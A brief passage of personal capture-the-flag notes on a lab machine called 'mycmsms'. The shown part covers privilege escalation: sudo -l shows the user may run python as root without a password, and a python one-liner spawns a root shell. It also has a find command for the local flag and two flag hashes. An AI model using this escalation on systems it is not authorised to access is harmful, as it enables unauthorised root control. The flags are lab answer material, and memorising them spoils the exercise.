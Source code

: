 ![[Pasted image 20231104150835.png]]

now I'm Armour

Can run python 

armour@mycmsms:~$ sudo -l
sudo -l
Matching Defaults entries for armour on mycmsms:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User armour may run the following commands on mycmsms:
    (root) NOPASSWD: /usr/bin/python

```
sudo python -c 'import os; os.system("/bin/sh")'
```

![[Pasted image 20231104151015.png]]

![[Pasted image 20231104151055.png]]

970cad17211c33363eb0fd006ed3c464

must have missed local

```
find / -type f -name "local.txt" 2>/dev/null
```
![[Pasted image 20231104151219.png]]

5648c00001a702dd120c54839ae66dfb